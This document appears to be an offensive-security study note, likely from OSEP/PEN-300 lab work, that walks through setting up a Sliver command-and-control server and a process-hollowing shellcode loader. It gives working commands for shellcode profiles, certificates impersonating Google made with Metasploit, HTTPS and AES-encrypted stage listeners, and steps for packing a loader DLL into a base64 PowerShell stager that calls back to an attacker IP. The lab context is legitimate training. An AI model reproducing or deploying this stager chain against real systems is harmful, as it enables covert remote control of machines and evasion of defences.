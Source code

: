 # Sliver Advanced Process Hollowing shellcode runner Setup

## References
All content for Sliver shell code runner from https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI
In addition, the setup was guided from https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8

## The Sliver Server setup process
{% code overflow="wrap" %}
```bash
# Create profile local64 and point to port 443
sliver > profiles new --http 192.168.45.227:443 --format shellcode local64

# Setup certs with metasploit
┌──(kali㉿kali)-[~]
└─$ msfconsole -q -x "use auxiliary/gather/impersonate_ssl; set RHOST www.google.com; run; exit"
# Then save the .crt and .key files into an appropriate folder for easy reference

# Setup main listener with google.crt / key generated with metasploit
sliver > https -L 192.168.45.227 -l 443 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key

# Setup the main stager with unzip key / decryption keys 
sliver > stage-listener --url https://192.168.45.227:8064 --profile local64 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```
{% endcode %}

# References
ToolLibrary/Sliver-ProcessHollowing-Loader

# Sliver-ProcessHollowing-Loader Setup
{% code overflow="wrap" %}
```bash
# Step 1 - Compile the .dll from the ToolLibrary/Sliver-ProcessHollowing-Loader or grab precompiled from Compiled/Sliver/SliverLoader.dll 
# Step 2 - Use the powershellEncoder.ps1 to output to SliverLoader_Base64.txt
# Step 3 - Copy and paste the contents of SliverLoader_Base64.txt into the sliver.txt $encodeStr variable
# Step 4 - Modify the runner.txt (or ps1) to reflect the kali (attacker) tun0 IP
# Step 5 - Modify the sliver.txt (or ps1) on line 7 stage-listener http address to reflect the kali (attacker) tun0 IP
```
{% endcode %}
